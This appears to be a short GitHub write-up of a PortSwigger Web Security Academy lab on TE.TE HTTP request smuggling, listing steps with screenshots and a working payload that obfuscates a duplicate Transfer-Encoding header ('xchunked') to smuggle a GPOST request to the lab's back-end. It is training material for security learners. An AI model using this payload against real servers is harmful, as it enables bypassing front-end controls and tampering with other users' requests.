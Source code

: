 # obfuscating-te-header

## This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

## To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`

### Note: => TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

---

### step 1

![screenshot](images/images_lab3/lab3_get_request_homepage.jpg)

### step2

![screenshot](images/images_lab3/lab3_post_request_homepage.jpg)

### step3

unchecked Update Content-Length in repeater setting
add payload

### Note:

### Transfer-Encoding: chunked

### Transfer-Encoding: chunked

if both will chunked then payload will not work

```
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: xchunked

9d
GPOST / HTTP/1.1
Host: 0a5b002e03412337873679e2002900db.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![screenshot](images/images_lab3/lab3_payload.jpg)

### step4

![screenshot](images/images_lab3/lab3_solved_message.jpg)
